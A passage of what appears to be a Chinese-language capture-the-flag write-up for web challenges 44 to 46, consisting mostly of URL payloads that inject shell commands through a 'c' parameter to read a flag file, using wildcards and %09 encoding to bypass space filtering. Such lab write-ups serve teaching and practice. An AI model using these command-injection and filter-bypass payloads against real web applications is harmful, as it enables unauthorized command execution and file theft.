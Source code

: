 payload:

```
?c=tac fla?.php%26%261
```



#### web45

题目

![image-20250206231136473](assets/image-20250206231136473.png)

过滤空格，`%09`绕过

payload：

```
?c=tac%09fla?.php%26%261
```



#### web46

题目：

![image-20250208191638984](assets/image-20250208191638984.png)

payload:

```
?c=tac%09fla?.php%26%26a
```

